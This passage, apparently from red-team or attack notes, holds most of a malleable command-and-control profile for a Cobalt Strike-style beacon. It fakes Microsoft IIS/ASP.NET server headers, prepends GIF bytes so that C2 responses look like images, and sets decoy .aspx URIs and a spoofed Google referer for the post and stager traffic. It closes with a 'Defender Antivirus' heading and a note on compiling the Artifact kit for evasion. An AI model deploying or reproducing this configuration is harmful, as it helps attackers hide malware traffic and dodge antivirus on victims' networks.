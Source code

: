 ```powershell
		# customize soerver indicators
		header "Content-Type" "image/gif";
		header "Server" "Microsoft IIS/10.0";
		header "X-Powered-By" "ASP.NET";



		output{
			prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
			print;
		}
	}
}

http-post {
	set uri "/submit.aspx /finish.aspx";

	client {

		header "Content-Type" "application/octet-stream";
		header "Accept" "text/html,image/avif,image/webp,*/*";
		header "Accept-Language" "en-US,en;q=0.5";
		header "Accept-Encoding" "gzip, deflate";
		header "Referer" "https://www.google.com";

		id{
			parameter "id";
		}

		output{
			print;
		}

	}


	server {
		# customize soerver indicators
		header "Content-Type" "text/plain";
		header "Server" "Microsoft IIS/10.0";
		header "X-Powered-By" "ASP.NET";

		output{
			print;
		}
	}
}

http-stager {

	server {
		header "Content-Type" "application/octet-stream";
		header "Server" "Microsoft IIS/10.0";
		header "X-Powered-By" "ASP.NET";
	}
}
```
## Defender Antivirus
```powershell
# Compile the Artifact kit
```